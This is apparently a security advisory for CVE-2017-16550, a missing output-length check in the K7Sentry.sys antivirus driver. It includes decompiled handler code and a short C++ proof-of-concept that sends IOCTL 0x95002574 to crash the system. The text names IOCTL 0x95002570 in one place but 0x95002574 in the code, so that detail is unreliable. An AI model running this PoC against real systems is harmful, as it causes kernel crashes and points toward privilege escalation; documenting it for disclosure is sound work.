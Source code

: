 # CVE-2017-16550

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771

# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x95002570 does not check the length of the output buffer before using it and assigns a 4 byte value to the output buffer.

```C++
// Internal structure used in the driver to pass about the basic information needed
typedef struct _IO_CONTROL_BUFFER
{
    DWORD dwSize;
    DWORD dwInputBufferLength;
    PVOID pInputBuffer;
    DWORD dwOutputBufferLength;
    PVOID pOutputBuffer;
    PDWORD pdwIoStatusInformation;
    DWORD dwIoControlCode;
} IO_CONTROL_BUFFER, *PIO_CONTROL_BUFFER;


// This is filled in at the top of the dispatch handler
```

```C++
// Snippets of the handler routine

// Setting up the IO_CONTROL_BUFFER structure
IO_CONTROL_BUFFER stIoControlBuffer = {0};
stIoControlBuffer.dwSize = 32;
pIoStackLocation = (IO_STACK_LOCATION *)Irp->Tail.Overlay.CurrentStackLocation;
dwIoControlCode = pIoStackLocation->Parameters.DeviceIoControl.IoControlCode;
stIoControlBuffer.dwIoControlCode = dwIoControlCode;
stIoControlBuffer.dwInputBufferLength = pIoStackLocation->Parameters.DeviceIoControl.InputBufferLength;
stIoControlBuffer.dwOutputBufferLength = pIoStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
stIoControlBuffer.pdwIoStatusInformation = &Irp->IoStatus.Information;

if ( !(dwIoControlCode & 3) )
{
    pInputBuffer = (int *)Irp->AssociatedIrp.SystemBuffer;
    stIoControlBuffer.pInputBuffer = pInputBuffer;
    pOutputBuffer = (PVOID *)pInputBuffer;
    stIoControlBuffer.pOutputBuffer = pInputBuffer;
    goto LABEL_12;
}
if ( (dwIoControlCode & 3) != 3 )
{
    pOutputBuffer = (PVOID *)stIoControlBuffer.pOutputBuffer;
    goto LABEL_11;
}
pInputBuffer = (int *)pIoStackLocation->Parameters.DeviceIoControl.Type3InputBuffer;
stIoControlBuffer.pInputBuffer = pInputBuffer;
pOutputBuffer = (PVOID *)Irp->UserBuffer;
stIoControlBuffer.pOutputBuffer = Irp->UserBuffer;


// Snippet of the specific handler code.
switch (dwIoControlCode)
{
    // ...
    case 0x9500256C:
        if ( stIoControlBuffer.dwInputBufferLength < 4u || !pInputBuffer )
            goto LABEL_49;
        if ( dwOutLength_1 < 4 )
            goto LABEL_39;
        *pOutputBuffer = (PVOID)1;
        *v2 = 4;
        v9 = 0;
        goto LABEL_117;
    case 0x95002570:
        // See CVE-2017-16549
        goto LABEL_117;
    case 0x95002574:
        // At this point, no checks have been performed in the size of the output buffer...
        v9 = sub_15840(&stIoControlBuffer);
        goto LABEL_117;
    // ...
}

```

```C++
int __stdcall sub_15840(IoControlBuffer *pIoControlBuffer)
{
    // 
    PVOID v1; // eax
    bool v2; // zf
    PVOID v3; // eax

    GetVirusDefVersion(&g_pszVDefVersoin);
    word_4EFD4 = g_pszVDefVersoin;
    if ( dword_4F020 && !_InterlockedCompareExchange(&dword_4F024, 1, 0) )
    {
        // Some code, not relavent
    }
    *pIoControlBuffer->pdwIoStatusInformation = 4;

    // VULN: No check has been performed to ensure you can write 4 bytes to pOutputBuffer. Need 
    // to check dwOuputBufferSize is >= 4 before assigning 4 bytes to it.
    *(_DWORD *)pIoControlBuffer->pOutputBuffer = 0;
    return 0;
}
```


# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x95002574, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value 0 to *0xaaaaaaaa*.

On Windows 7 and above, this will attempt to write the value 0 to 0x00000000 and will cause a BSOD.
